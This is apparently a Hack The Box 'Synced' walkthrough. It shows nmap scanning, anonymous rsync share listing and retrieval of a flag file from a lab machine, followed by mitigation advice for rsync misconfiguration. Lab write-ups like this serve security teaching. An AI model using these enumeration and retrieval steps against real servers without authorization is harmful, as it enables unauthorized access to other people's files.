


# Synced — HTB Walkthrough

**Status:** Completed  
**Difficulty:** Very Easy  
**OS:** Linux

## TL;DR
Discover rsync file synchronization service, list available shares anonymously, retrieve flag from accessible directory.

## Target / Access
**Target IP:** `<redacted>`  
> Note: IP addresses have been redacted per HTB publishing guidelines.

---

## Enumeration

### Step 1: Port Scanning with Nmap

**Command:**
```bash
nmap -sV -p- <redacted-ip>
```

**Raw Log:** [nmap-scan.txt](raw-logs/document.pdf) (Page 2)

**Output Excerpt:**
```
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

**Analysis:** Rsync file synchronization service running on port 873.


---

## Foothold / Initial Access

### Step 2: Enumerate Rsync Shares

**Command:**
```bash
rsync --list-only <redacted-ip>::
```

**Raw Log:** [rsync-list.txt](raw-logs/document.pdf) (Page 3)

**Output Excerpt:**
```
public         Anonymous Share
```

**Analysis:** Publicly accessible share named "public" allows anonymous access.




### Step 3: List Share Contents

**Command:**
```bash
rsync --list-only <redacted-ip>::public
```

**Raw Log:** [public-contents.txt](raw-logs/document.pdf) (Page 4)

**Output Excerpt:**
```
drwxr-xr-x          4,096 2021/10/25 13:51:42 .
-rw-r--r--             33 2021/10/25 13:51:42 flag.txt
```

**Analysis:** flag.txt file located in public share.




### Step 4: Download Flag File

**Command:**
```bash
rsync <redacted-ip>::public/flag.txt ./flag.txt
cat flag.txt
```

**Raw Log:** [flag-download.txt](raw-logs/document.pdf) (Page 5)

**Output:** Flag successfully downloaded and read.


---

## Summary

This Starting Point machine demonstrates rsync service misconfiguration allowing anonymous file access.

### Attack Chain
1. **Port Scanning** — Discovered rsync on port 873
2. **Share Enumeration** — Listed publicly accessible shares
3. **Content Discovery** — Found flag.txt in public share
4. **File Retrieval** — Downloaded flag using rsync

### Tools Used
- Nmap — Port scanning and service detection
- rsync — File synchronization and transfer utility

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **Disable Anonymous Access:** Configure rsync to require authentication for all shares.
2. **Use SSH Tunneling:** Run rsync over SSH instead of standalone daemon.
3. **Restrict Access:** Use hosts allow/deny in rsyncd.conf to limit connections to trusted IPs.
4. **Read-Only Shares:** Set shares to read-only where write access is not required.
5. **Monitor Logs:** Enable and regularly review rsync access logs.
6. **Principle of Least Privilege:** Only share directories that need to be accessible.

### References
- [Rsync Security Best Practices](https://download.samba.org/pub/rsync/rsync.html)
- [rsyncd.conf Configuration](https://download.samba.org/pub/rsync/rsyncd.conf.html)
- [OWASP: Improper Access Control](https://owasp.org/www-community/Improper_Access_Control)

---

## Security Summary

**Redactions Performed:**
- IP addresses replaced with `<redacted>` or `<redacted-ip>`
- No authentication was required (anonymous access allowed)

**⚠️ Warning:** Review and redact any sensitive information (credentials, private IPs, tokens) before publishing.
